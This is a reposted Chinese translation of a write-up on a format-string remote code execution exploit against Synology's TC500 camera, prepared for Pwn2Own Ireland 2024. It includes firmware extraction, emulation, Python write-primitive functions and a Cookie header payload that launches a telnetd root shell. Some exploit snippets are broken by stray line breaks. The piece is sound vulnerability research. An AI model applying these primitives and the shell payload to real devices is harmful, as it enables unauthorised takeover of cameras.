





# Exploiting the Synology TC500 at Pwn2Own Ireland 2024-先知社区

> **来源**: https://xz.aliyun.com/news/19167  
> **文章ID**: 19167

---

# Exploiting the Synology TC500 at Pwn2Own Ireland 2024

原文：<https://blog.infosectcbr.com.au/2025/08/01/exploiting-the-synology-tc500-at-pwn2own-ireland-2024/>

## 引言

本文将讨论Synology TC500 智能摄像头的RCE利用，利用的是一个格式化字符串（format string）漏洞。这是一个有趣的格式字符串漏洞挖掘案例研究。

## 固件解压

下载固件后

```
#!/bin/env python

import construct.lib
from construct import *
import sys

#fileName = "Synology_TC500_1.1.1_0383.sa.bin"
fileName = sys.argv[1]

firmwareFormat = Struct(
    "header" / Struct(
        "version" / PaddedString(8, 'ascii'),
        "firmware_version" / PaddedString(16, 'ascii'),
        "model" / PaddedString(8, 'ascii'),
        Padding(56), # padded with 0
        Bytes(16),
        Padding(16), # padded with 0
        Bytes(4),
        "partition_count" / BytesInteger(2, swapped=True),
        "pre_script" / Prefixed(BytesInteger(4, swapped=True), Compressed(GreedyBytes, "zlib")),
        "post_script" / Prefixed(BytesInteger(4, swapped=True), Compressed(GreedyBytes, "zlib")),
    ),
    "partitions" / Array(this.header.partition_count,
        Struct(
            "name" / PaddedString(64, 'ascii'),
            "script_length" / BytesInteger(4, swapped=True),
            "image_length" / BytesInteger(4, swapped=True),
            "script" / FixedSized(this.script_length, Compressed(GreedyBytes, "zlib")),
            "image" / FixedSized(this.image_length, Compressed(GreedyBytes, "zlib")),
        )
    ),
    "signature" / Bytes(512),
)

with open(fileName, mode='rb') as fileObject:
    fileContent = fileObject.read()
    firmwareObject = firmwareFormat.parse(fileContent)

    for partition in firmwareObject['partitions']:
        with open(fileName + '_' + partition['name'].replace('\x00','') + '.sh', mode='wb') as writeObject:
            writeObject.write(partition['script'])
        with open(fileName + '_' + partition['name'].replace('\x00','') + '.bin', mode='wb') as writeObject:
            writeObject.write(partition['image'])

    with open(fileName + '_pre.sh', mode='wb') as writeObject:
        writeObject.write(firmwareObject['header']['pre_script'])

    with open(fileName + '_post.sh', mode='wb') as writeObject:
        writeObject.write(firmwareObject['header']['post_script'])

```

可参考：<https://blog.compass-security.com/2024/03/pwn2own-toronto-2023-part-1-how-it-all-started/>

```

$ ubireader_extract_images Synology_TC500_1.1.1_0383.sa.bin_rootfs.bin -o ubi_out
$ binwalk -Me img-1656200229_vol-rootfs.ubifs 

Scan Time:     2025-09-25 08:26:47
Target File:   /Synology_TC500_1.1.1_0383.sa.bin_rootfs.bin/img-1656200229_vol-rootfs.ubifs
MD5 Checksum:  bd58f7ef26635b2c486c61bba2e69bc6
Signatures:    411

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
WARNING: Symlink points outside of the extraction directory: /Synology_TC500_1.1.1_0383.sa.bin_rootfs.bin/_img-1656200229_vol-rootfs.ubifs.extracted/squashfs-root/lib/modules/4.19.91/source -> /dev_fw/nt9856x/nt9856x_linux_sdk_release_glibc_v1.01.007/BSP/linux-kernel; changing link target to /dev/null for security purposes.
WARNING: Symlink points outside of the extraction directory: /Synology_TC500_1.1.1_0383.sa.bin_rootfs.bin/_img-1656200229_vol-rootfs.ubifs.extracted/squashfs-root/lib/modules/4.19.91/build -> /dev_fw/nt9856x/nt9856x_linux_sdk_release_glibc_v1.01.007/BSP/linux-kernel; changing link target to /dev/null for security purposes.
WARNING: Symlink points outside of the extraction directory: /Synology_TC500_1.1.1_0383.sa.bin_rootfs.bin/_img-1656200229_vol-rootfs.ubifs.extracted/squashfs-root/etc/resolv.conf -> /tmp/resolv.conf; changing link target to /dev/null for security purposes.
WARNING: Symlink points outside of the extraction directory: /Synology_TC500_1.1.1_0383.sa.bin_rootfs.bin/_img-1656200229_vol-rootfs.ubifs.extracted/squashfs-root/etc/group -> /data/app/group; changing link target to /dev/null for security purposes.
WARNING: Symlink points outside of the extraction directory: /Synology_TC500_1.1.1_0383.sa.bin_rootfs.bin/_img-1656200229_vol-rootfs.ubifs.extracted/squashfs-root/etc/localtime -> /data/app/localtime; changing link target to /dev/null for security purposes.
WARNING: Symlink points outside of the extraction directory: /Synology_TC500_1.1.1_0383.sa.bin_rootfs.bin/_img-1656200229_vol-rootfs.ubifs.extracted/squashfs-root/etc/ntp.conf -> /tmp/ntp.conf; changing link target to /dev/null for security purposes.
WARNING: Symlink points outside of the extraction directory: /Synology_TC500_1.1.1_0383.sa.bin_rootfs.bin/_img-1656200229_vol-rootfs.ubifs.extracted/squashfs-root/etc/passwd -> /data/app/passwd; changing link target to /dev/null for security purposes.
0             0x0             Squashfs filesystem, little endian, version 4.0, compression:xz, size: 32105642 bytes, 2034 inodes, blocksize: 131072 bytes, created: 2024-03-13 18:37:01
```

解开后的文件系统如下：



## 固件模拟

### 使用user-mode模拟

```

/Synology_TC500_1.1.1_0383.sa.bin_rootfs.bin/_img-1656200229_vol-rootfs.ubifs.extracted/squashfs-root$ qemu-arm -L ./  ./bin/webd 
```



```
$ curl -v http://127.0.0.1:8080/
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
```

### Docker环境搭建模拟

```
sudo systemctl show --property=Environment snap.docker.dockerd.service
Environment=HTTP_PROXY=http://192.168.46.1:7890 HTTPS_PROXY=http://192.168.46.1:7890
```

```
cd squashfs-root
sudo tar -czf ../rootfs.tar.gz .
cd ..
```

## 攻击面

这款摄像头的固件是公开可[下载](https://archive.synology.com/download/Firmware/Camera/TC500)的，并且可以在仿真环境中运行（类似于第六届 Real World CTF 的设置）。通过仿真起固件，可以分析该摄像头的攻击面。

在局域网（LAN）侧，有两个服务：用于登录和管理摄像头的`webd`服务，RTSP 管理进程 `streamd` 。

```
$ netstat -plantu
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State
PID/Program name
tcp    0     0     0.0.0.0:443    0.0.0.0:*    LISTEN    770/webd
tcp    0     0     0.0.0.0:554    0.0.0.0:*    LISTEN    847/streamd
tcp    0     0     0.0.0.0:80     0.0.0.0:*    LISTEN    770/webd
tcp    0     0     :::554         :::*         LISTEN    847/streamd
udp    0     0     0.0.0.0:19998  0.0.0.0:*              770/webd
```

`webd` 为 32 位 ARM 架构：



它是一个定制版本的开源 `web` 服务器 `civetweb`，带有调试、日志记录、与 RTSP 服务交互等修改。

```
$ checksec ./bin/webd
[*] You have the latest version of Pwntools (4.8.0)
[*] 'Synology_TC500_1.1.1_0383.sa.bin_rootfs.bin/_img-1656200229_vol-rootfs.ubifs.extracted/squashfs-root/bin/webd'
    Arch:     arm-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

它编译时启用了常见的安全防护机制：PIE、RELRO、ASLR 和 Canary。它使用的是 `glibc` v2.30。

## 漏洞细节

在对 `webd` 的逆向过程中，我们发现它对 `process_new_connection` 做了一些定制化改动。`process_new_connection` 是每个工作线程处理 HTTP 请求时调用的函数。Synology 新增了一个全局调试信息表 `worker_debug_table`，用于记录每个线程及它们最近处理的连接。在 `process_new_connection` 的末尾，请求的 URI 会通过`snprintf`被拼接到一个 `thread_name` 缓冲区中：

```
req_uri = conn->request_info.request_uri;
...
char thread_name[0x80];
mg_snprintf(0, nullptr, thread_name, 0x80, "%s%s", ..., req_uri);
```

该`thread_name`随后通过 `set_thread_name` 函数被追加到 `worker_debug_table` 中。

```
if (worker_debug_table != 0)
    set_thread_name(pthread_self(), thread_name);
```

然而在`set_thread_name`函数中，输入的`thread_name`被直接作为`mg_snprintf`的唯一参数使用，这意味着存在格式字符串漏洞——原始`req_uri`将被直接用于`snprintf`函数中。

```
void set_thread_name(pthread_t self, char* thread_name)
{
    ...
    if (worker_debug_table[i]->thread == self)
    {
        mg_snprintf(0, nullptr, worker_debug_table[i]->name, 0x80, thread_name);
        worker_debug_table[i]->name[strlen(thread_name)] = 0;
    }
    ...
}
```

测试复现：



可以看到：



## 利用

### 信息泄露

`worker_debug_table` 中的线程名称不会返回给远程用户，因此我们无法直接使用类似 `%p%p%p%p` 的 `URI` 从堆栈中获取指针。然而，通过检查存在漏洞的 `snprintf` 调用处的堆栈状态，我们发现了潜在的信息泄露线索。

```
pwndbg> telescope
...
07:001c| 0x7588268c -> 0x75500610 <- 0x312e31 /* '1.1' */
```

栈中的第七个是一个指向字符串的指针，该字符串包含请求中使用的HTTP版本。这意味着我们可以利用该漏洞覆盖该指针，使用类似以下格式的URL：`%*[some_stack_entry_index]$c%7$n`

此格式字符串分为两部分:  
• `%*[some_stack_entry_index]$c` 将接收一个位置参数，并从栈中写入该参数指定数量的字符。  
• `%7$n` 将统计格式字符串中迄今为止写入的总字节数，并将其写入第7个位置参数（在本例中即第7个栈指针）。

例如，以下C代码，将写入3字节数据，意味着x将更新为3

```
int x;
printf("%*3$c%7$n", "abcdefghijklmn", NULL, 3, NULL, NULL, NULL, &x);
```

使用此格式，我们可以在HTTP版本字符串上写入指针，该指针将被返回给我们，从而绕过地址空间布局随机化（ASLR）。该技术存在局限性：在特定架构和glibc版本下，写入量无法超过`~0x60000000`字节。这意味着我们无法写入完整指针——该指针需位于`0x50000000-0x60000000`地址区间，而该区间恰好不在可执行文件内。

### 堆栈写入

我们可以通过自定义长度的字符串覆盖栈中的任意指针。格式字符串必须呈现为 `%[某些值]c%[栈索引]$n` 的形式。通过 %n、%hn、%hhn 分别可写入 32 位、16 位或 8 位数据。

### 任意写入

通过更新栈指针使其指向自身，可将栈写入操作转换为任意写入操作。在栈偏移量3664处存在一个指向栈的反向指针，我们将该指针称为p1。可使p1指向另一个栈指针p2，该指针位于栈内偏移0x10字节处。

```
pwndbg> tele $sp+3664
00:0000| 0x758834c0 <- 0x758834c0 ## p1
...
04:0010| 0x758834d0 -> 0x75882e68 ## p2 <- 0x5f715ee8
```

使用`%hhn`覆盖此偏移量后，我们可以按如下方式修改它。 

```

pwndbg> tele $sp+3664
00:0000| 0x758834c0 -> 0x758834d0 ## p1 -> 0x75882e68 ## p2<- 0x5f715ee8
04:0010| 0x758834d0 -> 0x75882e68 ## p2 <- 0x5f715ee8
```

这些指针在工作线程的栈中埋得如此之深，以至于指针变化会持续存在于多个请求之间。现在我们能够通过更新p1来更新p2，从而将栈指针指向任意地址，再通过更新p2的内容向该地址写入数据。

利用p1可使p2指向栈中偏移量为2080的位置。该区域实际处于闲置状态，因此对该区域的修改同样能在请求间持久化。我们将指向该区域的指针命名为p3。此时p2指向p3，我们可通过更新p2的最后一个字节来增量更新p3，随后覆盖p3的内容。这使我们能在p3处创建任意指针，进而采用与栈写入相同的技术，利用p3的栈索引进行操作。8位任意写入的代码如下所示：

```
def stack_write8(offset, value):
    entry = offset // 4
    if len(CLIENT_IP) + 1 > value:
        value += 0x100
    req = b'GET /%' + str(value - len(CLIENT_IP) - 1).encode() + b'c%' +
    str(entry).encode() + b'$hhn HTTP/1.1\r
\r
'
    print(req)
    do_request(req)

def arb_write8(addr, value):
    # Point to offset 2080 by updating p2's last byte to 0x90
    stack_write8(p1, 0x90)
    # Write the last byte of the address to p2 (which is pointing to p3)
    stack_write8(p2, addr & 0xFF)
    # Increment p2 by one byte
    stack_write8(p1, 0x91)
    # Write 2nd byte of address to p2
    stack_write8(p2, (addr >> 8) & 0xFF)
    # repeat until all bytes are written
    stack_write8(p1, 0x92)
    stack_write8(p2, (addr >> 16) & 0xFF)
    stack_write8(p1, 0x93)
    stack_write8(p2, (addr >> 24) & 0xFF)
    if len(CLIENT_IP) + 1 > value:
        value += 0x100
    req = b'/%' + str(value - len(CLIENT_IP) - 1).encode() + b'c%' + str(OFFSET_STACK_DATA // 4).encode() + b'$hhn'
    return do_request(b'GET %s HTTP/1.1\r
\r
' % req
```

### 任意读取操作

我们将任意写入操作与信息泄露操作结合，即可实现任意读取。只需将信息泄露中使用的`http_version`字符串更新为任意地址，并发送请求。这将返回该任意地址所指向的内容。

## 获取远程SHELL

获取远程shell依赖于`glibc 2.30`使用`"hooks"`实现各种`libc APIs`。我们的思路是：用`system()`钩子覆盖`__free_hook`，并在调用`free()`时将指向可控字符串的指针作为第一个参数传入。  
   
首先，通过信息泄露机制，我们能确定`PIE`基址，进而推算出`.got`段地址。`.got`段存储着`glibc`中`system`、`malloc`、`free`等函数的地址。利用`.got`段信息可推导出`glibc`的基址，从而获取`__free_hook`钩子的地址。随后可利用任意写入覆盖`__free_hook`钩子为`system`。

接下来，可通过Cookie HTTP头部强制`webd`对可控字符串调用`free`（此时已变为`system`）。位于`0x34a54`处的函数（我们称之为`GetSessionIdFromCookie`）会根据`cookie`值创建`std::string`对象。

```

int32_t* GetSessionIdFromCookie(int32_t* arg1, struct mg_request_info*arg2) {
    int32_t num_headers = arg2->num_headers
    ...
    if (num_headers <= 0)
        ...
    else
        ...
    while (true)
        if (strcmp(p1: arg2->headers[i_2].name, p2: "Cookie") == 0)
            char* cookie = arg2->headers[i_2].value
            
            if (cookie != 0)
                ....
                std::string::_M_construct<char const*>(&delim, "; ", &data_afee8[2])
                std::vector<std::string> split_cookie
                SplitStr(ret: &split_cookie, &cookie_1, &delim) // [1]
                ...
                std::vector<std::string> split_cookie_1 = split_cookie
                ...
            else
                while (true)
                    cookie_1 = &var_3c
                    std::string::_M_construct<char const*>(&cookie_1, "=", &data_ab95c[9])
                    SplitStr_2(&var_8c, &split_cookie_1[2], &cookie_1)
                    void* cookie_3 = cookie_1
                    if (cookie_3 != &var_3c) // [2]
                        operator delete(ptr: cookie_3)
}
 
```

在[1]处，函数使用分号分隔符拆分`cookie`，并将结果存储在`split_cookie`向量中。随后在[2]处，函数将删除`cookie`中分号之前的字符。因此，我们可以发送内容为：

```
Cookie: telnetd -p 1337 -l /bin/sh -F; AAAAAAA 
```

此后，当该内存被释放时，system() 函数将使用 telnetd 命令。

## 结论

该漏洞利用技术对存在漏洞的TC500固件效果极佳。然而就在我们飞往爱尔兰提交漏洞的前夜，Synology发布了固件更新，修复了格式字符串漏洞。这就是Pwn2Own赛事的常态……

若想了解针对此漏洞的另一种利用方式，Baptiste MOINE撰写了关于Synology的精彩技术报告。详细见：<https://www.synacktiv.com/sites/default/files/2025-01/blind_fmtstr.pdf>

## 参考

1. <https://archive.synology.com/download/Firmware/Camera/TC500>
2. <https://blog.compass-security.com/2024/03/pwn2own-toronto-2023-part-1-how-it-all-started/>
3. <https://blog.infosectcbr.com.au/2025/08/01/exploiting-the-synology-tc500-at-pwn2own-ireland-2024/>
